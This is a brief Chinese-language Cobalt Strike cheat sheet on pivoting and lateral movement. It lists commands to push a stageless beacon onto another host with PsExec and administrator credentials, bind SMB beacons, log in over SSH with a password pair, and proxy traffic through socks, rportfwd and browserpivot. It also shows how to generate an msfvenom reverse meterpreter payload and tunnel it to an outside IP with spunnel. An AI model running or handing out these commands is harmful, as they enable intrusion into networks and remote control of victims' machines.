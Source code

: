   #### 权限机中转
	Pivoting ->Listener新建一条已有权限机器的监听器
![image](img/233.png)
![image](img/234.png)
![image](img/235.png)

	选择 Attacks->Packages->Windows Executable(Stageless) 
![image](img/236.png)

	上传生成的payload到已上线的目标机中，上传PsExec.exe
	beacon>shell C:\psexec.exe -accepteula \\10.1.1.105 -u administrator -p xxx -d -c C:\beacon.exe
![image](img/237.png)
  #### SMB_beacon
	新建监听器(bind)windows/beacon_smb/bind_pipe
	执行
	>psexec 机器名 ADMIN$/c$ bind
  #### SSH login
	>ssh 10.1.1.98:22 root admin
![image](img/238.png)

	在你的 teamserver 的给定端口上启动一个 SOCKS 服务器，通过指定的 Beacon 传输流量。 在 /etc/proxychains.conf 中设置 teamserver/port 配置以方便使用		
	beacon > socks [PORT]
	通过指定的 Internet Explorer 进程代理浏览器流量
	beacon > browserpivot [pid] [x86|x64]

	绑定到 Beacon 主机上的指定端口，并将任何传入的连接转发到被转发的主机和端口
	beacon > rportfwd [bind port] [forward host] [forward port]

	spunnel : 生成一个代理并创建一个到其控制器的反向端口转发隧道
	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o /tmp/msf.bin
	beacon> spunnel x64 184.105.181.155 4444 C:\Payloads\msf.bin

	spunnel_local: 生成一个代理并创建一个反向端口转发，通过您的 Cobalt Strike 客户端隧道传输到其控制器
	然后你可以在你的 MSF multi handler上处理连接
	beacon> spunnel_local x64 127.0.0.1 4444 C:\Payloads\msf.bin